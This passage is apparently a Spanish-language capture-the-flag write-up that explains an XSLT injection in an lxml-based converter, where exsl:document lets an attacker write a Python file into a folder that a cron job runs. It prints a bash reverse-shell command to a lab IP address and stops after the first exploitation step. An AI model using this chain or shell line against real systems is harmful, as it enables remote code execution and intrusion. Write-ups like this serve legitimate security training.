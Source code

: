 ### ¿Por Qué es Vulnerable?

1. **XML protegido**: El parser XML tiene configuraciones seguras (`resolve_entities=False`, `no_network=True`)
2. **XSLT desprotegido**: El archivo XSLT se parsea **sin ninguna restricción** en la línea `xslt_tree = etree.parse(xslt_path)`
3. **EXSLT habilitado**: Por defecto, `lxml` tiene soporte para EXSLT, incluyendo `exsl:document`

**Resultado:** Un atacante puede subir un XSLT malicioso que utilice `exsl:document` para escribir archivos arbitrarios en el servidor.

---

## Escenario del CTF

### Reconocimiento

Durante el reconocimiento, descubrimos información clave en el repositorio de la aplicación:

```bash
# README.md o comentarios en el código
# Cron job ejecutándose cada minuto:
***** www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

**Interpretación:**
- Cada minuto, un cron job ejecuta **todos los archivos `.py`** en `/var/www/conversor.htb/scripts/`
- Se ejecutan como usuario `www-data`
- ¡Podemos escribir un script Python malicioso ahí!

### Vector de Ataque

```
1. Subir XSLT malicioso con exsl:document
2. Escribir shell.py en /var/www/conversor.htb/scripts/
3. El cron ejecuta shell.py automáticamente
4. Obtenemos reverse shell
```

---

## Explotación Paso a Paso

### Paso 1: Preparar el Entorno del Atacante

Primero, creamos nuestro payload de reverse shell y lo servimos por HTTP:

```bash
# Crear el script de reverse shell
echo '#!/bin/bash' > shell.sh
echo 'bash -i >& /dev/tcp/10.10.14.15/9001 0>&1' >> shell.sh

# Verificar el contenido
cat shell.sh
```
